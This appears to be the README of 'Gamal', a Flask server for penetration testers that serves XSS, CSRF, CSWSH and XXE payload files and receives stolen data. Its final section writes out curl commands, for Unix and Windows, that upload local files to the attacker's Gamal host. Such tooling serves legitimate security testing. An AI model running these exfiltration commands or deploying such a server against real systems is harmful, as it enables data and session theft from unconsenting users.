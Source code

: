 # Gamal
A tiny flask app for helping pentesters, red-teamers and bug hunters in data exfileration, SSRF, XSS, Session Hijacking, Session Riding and Cookie Thieve.

## Install & usage:

```bash
cd /opt
git clone github.com/Fadavvi/Gamal
cd Gamal
python3 -m pip install flask
python3 gamal.py
```  

Default configuration: IP binding: `0.0.0.0`, Port: `1337`, Log: `gamal.log`, Canary-String: `booqbooqGamal`

or

`python3 gamal.py --ip <IPADDR> --port <PORTNUM> --log <LOGPATH> --canary <YourCanaryString> [--cert <FullChain> --key <PrivateKey>]`

Then you can use your IP & Port in your SSRF XSS | XXE | Open-Redirect | Etc. payloads.

***Note:*** Add your files in `/f` folder ==>  `http://IP:PORT/f/<Your-FileName>` 

## Paylods:
`/f/xss.js` XSS Sample function

`/f/CORS.html` CORS sample script

`/f/CSRF.html` CSRF sample page

`/f/CSWSH.html` Cross-Site WebSocket Hijacking (CSWSH) script

`/f/meta.jpg` XSS in Meta-data 

`/f/EBXXE.dtd` XXE .dtd sample file

`/f/xxe1.svg` and `/f/xxe2.svg` XXE in SVG file

## Data exfiltration

Linux / MacOS:

`curl -k -F "file=@<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`

Windows:

`Remove-Item alias:curl; curl -k -F "file=@C:\<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`